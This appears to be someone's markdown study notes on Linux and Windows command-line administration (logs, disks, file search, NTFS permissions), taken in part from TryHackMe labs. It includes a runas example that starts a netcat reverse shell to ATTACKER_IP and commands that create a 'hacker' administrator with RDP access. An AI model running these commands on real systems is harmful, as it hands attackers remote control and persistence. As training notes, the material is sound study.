 # Linux

## logfiles
`/var/log/auth.log` => authentication  
`/var/log/wtmp` => login/logout/runlevel change, special format need to use **last / who**

`dmesg` kernel log events  
`journalctl` systemd logs (**-r** reverse, **-f** follow, **-u** unit e.g. -u ssh.service)

## Disk

`free -m or -g` (mega / gigabyte)  
`df -h` (disk free)  
`du -hs <file/folder>` (usage)
`df -T` (determine type of filesystem)
`mount -t <type>` (list mounts of given type)

### Mount/Unmount USB

`sudo fdisk -l` (list devices)  
`sudo mount /dev/sdb1 /mnt/usb` (mount device sdb with "location" sdb1 to /mnt/usb)  

`sudo umount /mnt/usb`

## Curriculum

`# find / -type f \( -name "*.csv" -o -name "*.doc" \)  2>/dev/null` => find with multiple values 


# Windows

cmd `ver` => show version  

`attrib <file/folder>` => show attributes (attrib to modify attributes, like hidden or system)  

`dir /TW /OD` => /T< which timefield> /O < sort by>  (here, Time=Last Write, sort by date)  

## Environment

`%< XYZ >%` => e.g. echo %username%  
`set a=b` => list all env or modify in current session  
`setx a b` => modify env variable permanantly in registry  **/M** for system-wide all users

## Links

`mklink source target`  => symbolic
`mklink /h source target` => hardlink  

**.lnk file** => quick and dirty  `type Symlink.lnk | find "\"`  

## locate files

`dir /s *.exe` => /s recursive  
`tree /F` => tree visualization (F with files)  
`forfiles /P C:\Windows /S /M notepad.exe /c "cmd /c echo @PATH"` => P Start, S recursive, M what to search, c execute on every file  

## find / findstr / sort

`find` => used for text  
`findstr` => regex ability   
`sort /R` => reverse  

```
n-th line of file
findstr /n .* C:\Users\test\Desktop\large.txt | findstr "^123:"
```
`findstr /n .*` => add linenumber then "grep"  

`type test.txt | find /c /v "" ` => like wc -l

## Win security principal
Win uses security principal ~Entity  
Identified by `SID => S-1-1-0 Everyone` (each component special meaning, e.g. 3rd authority 5=individual account or group)  

`ACE` uses `SID`  
`ACL` consists of `ACE`, 6 types of ACE, each consist of: SID, set of access rights and several flags 

`LSA` also uses SIDs to assign access tokens

## Win groups and user
Default user:
- `Administrator` => S-1-5-domain-500, on Win10 default disabled during installation. Different account is been added to Administrators group  
- `Guest` => SID S-1-5-32-546, default disabled. Enable temporary login for users without account. **If enabled, mostly blank password.**  
- `SYSTEM` => used by the OS to run services which require elevated permissions. Default permissions like Admin, but doesn't require "logged in human".


<u>net command</u>

`net user hacker password123 /add` => **Add user**  
`net localgroup Administrators hacker /add` =>  **Add user to group**  
`net localgroup "Remote Desktop Users" hacker /add` => **Able to use RDP**
  
`net user hacker /del` => Delete user  
`net accounts` => show policies, e.g. password length  

`wmic useraccount get name where Disabled=TRUE` => list all disabled accounts  

<u>runas and cmd /c</u>  
_https://tryhackme.com/room/adenumeration_ 
- from THM `C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"` => /netonly only network operations
- `runas.exe /netonly /user:<domain>\<username> cmd.exe`  
- `dir \\za.tryhackme.com\SYSVOL` check if working inside AD  (_name=Kerberos, IP=NTLM_)  

## NTFS Permissions  
Files != Directories

<u>Files:</u>  
- **Read**, also allows to execute scripts 
- **Write**, does NOT allow to delete
- **Read & Execute**, also execute BINARIES
- **Modify**, read/write AND `delete`
- **Full Control**

<u>Directories:</u>
- **Read**, view and list any file
- **Write**, add files or subfolder
- **Read & Execute**, view/list files or subfolders AND execute binaries
- **List Folder Contents**, list files or subfolder AND execute binaries BUT NOT view file content  
- **Modify**, read/write/delete files and subfolders
- **Full Control**, allows deletion of files even not assign to files directly

_NTFS uses inheritance_ => folder permissions are propagated to child files or folders

`icacls` => view/edit permissions
- /T executes the operation recursively on all subfolders
- /C forces the operation to continue despite any errors
- /L is used with symbolic links. It causes the operation to be executed on the link itself rather than its target.

`icacls Test /grant Hacker:(OI)(CI)(F)` => add full permission of folder to Hacker
`icacls Test /deny Hacker` => delete permission
`icacls Test /grant:r Hacker:(RD,S)` => **:r** replace existing permissions, otherwise it only appends

`accesschk.exe "users" c:\` => from sysinternals

